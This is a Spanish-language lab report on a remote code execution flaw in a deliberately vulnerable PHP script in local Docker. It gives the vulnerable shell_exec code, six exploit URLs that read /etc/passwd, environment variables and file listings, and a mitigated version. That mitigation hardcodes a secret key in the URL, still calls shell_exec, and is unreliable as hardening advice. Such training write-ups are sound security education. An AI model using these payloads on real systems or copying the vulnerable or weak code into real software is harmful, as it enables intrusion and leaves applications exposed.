






# RCE

RCE (Remote Code Execution) ocurre cuando una aplicación permite ejecutar comandos en el sistema sin restricciones,
lo que puede dar control total al atacante en determinadas ocasiones.

Consecuencias de RCE:
- Acceso a información sensible (usuarios, archivos, configuración).
- Ejecución de comandos maliciosos (descarga y ejecución de malware).
- Escalada de privilegios y control total del sistema.

---

## 1. OBJETIVO

Identificar vulnerabilidades de Ejecución Remota de Comandos (RCE) en una aplicación PHP sobre Docker e implementar mitigación completa.

---

## 2. ENTORNO DE PRUEBA

- *Servidor:* PHP 8.5.3 / Apache (Docker)
- *URL objetivo:* http://localhost/re.php
- *Archivo vulnerable:* re.php
- *Campo atacado:* $_GET['cmd'] → shell_exec()

### docker-compose.yml
yaml
version: '3.1'
services:
  server:
    image: php:apache
    ports:
      - 80:80
    volumes:
      - .:/var/www/html


---

## 3. VULNERABILIDAD IDENTIFICADA

- *Tipo:* OS Command Injection / Remote Code Execution (CWE-78)
- *Vector:* Parámetro GET cmd sin sanitización
- *Severidad:* CRÍTICA (CVSS 9.8)
- *Impacto:* Ejecución arbitraria de comandos del sistema como usuario www-data

### Código vulnerable:
```php
<?php
$output = shell_exec($_GET['cmd']);  // ← SIN VALIDACIÓN
echo $output;
?>
```

---

## 4. EXPLOTACIÓN CONFIRMADA

### EXPLOIT 1: Identificación de Usuario

*URL:*

http://localhost/re.php?cmd=whoami


*Resultado:*

www-data


*Impacto:* Confirma ejecución de comandos como usuario del servidor web



---

### EXPLOIT 2: Privilegios del Usuario

*URL:*

http://localhost/re.php?cmd=id


*Resultado:*

uid=33(www-data) gid=33(www-data) groups=33(www-data)


*Impacto:* Confirma nivel de privilegios del atacante



---

### EXPLOIT 3: Directorio de Trabajo

*URL:*

http://localhost/re.php?cmd=pwd


*Resultado:*

/var/www/html


*Impacto:* Revela estructura de directorios del servidor



---

### EXPLOIT 4: Listado de Archivos

*URL:*

http://localhost/re.php?cmd=ls+-la


*Resultado:*

README.md, docker-compose.yaml, re.php, /img


*Impacto:* Expone todos los archivos del servidor, permitiendo exfiltración



---

### EXPLOIT 5: Lectura de Archivos Críticos del Sistema

*URL:*

http://localhost/re.php?cmd=cat+/etc/passwd


*Resultado:*

root:x:0:0, daemon, bin, www-data... (usuarios del sistema)


*Impacto:* Lectura de archivos sensibles del sistema operativo



---

### EXPLOIT 6: Variables de Entorno

*URL:*

http://localhost/re.php?cmd=env


*Resultado:*

PHP_VERSION=8.5.3, APACHE_RUN_USER=www-data, PWD=/var/www/html...


*Impacto:* Expone configuración interna, versiones y rutas del servidor



---

## 5. TABLA RESUMEN EXPLOITS

| # | Tipo | URL | Resultado | Severidad | Evidencia |
|---|------|-----|-----------|-----------|-----------|
| 1 | Identificación usuario | ?cmd=whoami | www-data | Alta | img/1.png |
| 2 | Privilegios | ?cmd=id | uid=33(www-data) | Alta | img/2.png |
| 3 | Directorio | ?cmd=pwd | /var/www/html | Media | img/3.png |
| 4 | Listado archivos | ?cmd=ls+-la | Archivos expuestos | Alta | img/4.png |
| 5 | Archivos sistema | ?cmd=cat+/etc/passwd | Usuarios del SO | CRÍTICA | img/5.png |
| 6 | Variables entorno | ?cmd=env | Config interna | Alta | img/6.png |

---

## 6. MITIGACIÓN IMPLEMENTADA

### 6.1 safe_re.php (versión segura)
```php
<?php
// ========================================
// EJECUCIÓN DE COMANDOS SEGURA
// ========================================

// 1. AUTENTICACIÓN REQUERIDA
if (!isset($_GET['key']) || $_GET['key'] !== 'CyberSec2026!') {
    http_response_code(403);
    exit('Acceso denegado');
}

// 2. RATE LIMITING
session_start();
if (!isset($_SESSION['cmd_count'])) {
    $_SESSION['cmd_count'] = 0;
    $_SESSION['cmd_time'] = time();
}
if (time() - $_SESSION['cmd_time'] > 60) {
    $_SESSION['cmd_count'] = 0;
}
if ($_SESSION['cmd_count'] >= 5) {
    exit('Límite excedido. Espera un minuto.');
}

// 3. WHITELIST DE COMANDOS SEGUROS
$allowed_cmds = ['id', 'whoami', 'pwd', 'uname -a', 'ls -la'];
$cmd = $_GET['cmd'] ?? '';

if (!in_array($cmd, $allowed_cmds)) {
    exit('Comando no permitido');
}

// 4. EJECUTAR CON ESCAPE
$_SESSION['cmd_count']++;
echo "<pre>" . htmlspecialchars(shell_exec($cmd . ' 2>&1'), ENT_QUOTES, 'UTF-8') . "</pre>";
?>
```

---

### 6.2 Protecciones implementadas

| Protección | Técnica | Propósito |
|------------|---------|-----------|
| Autenticación | Clave secreta GET key | Impide acceso no autorizado |
| Whitelist comandos | in_array($cmd, $allowed) | Solo permite comandos seguros |
| Rate Limiting | 5 comandos/min por sesión | Previene abuso automatizado |
| Output encoding | htmlspecialchars() | Previene XSS secundario |
| php.ini | disable_functions=shell_exec | Bloquea función a nivel servidor |
| Apache .htaccess | Deny from all en re.php | Bloquea acceso al archivo vulnerable |

---

## 7. CONCLUSIONES

- 6 exploits RCE identificados y replicados  
- Acceso shell completo confirmado como www-data  
- Mitigación multicapa implementada y probada  
- Código seguro disponible (safe_re.php)  
- Controles preventivos adicionales documentados  

*Recomendación:* Reemplazar re.php por safe_re.php en producción y aplicar controles de php.ini y .htaccess.

---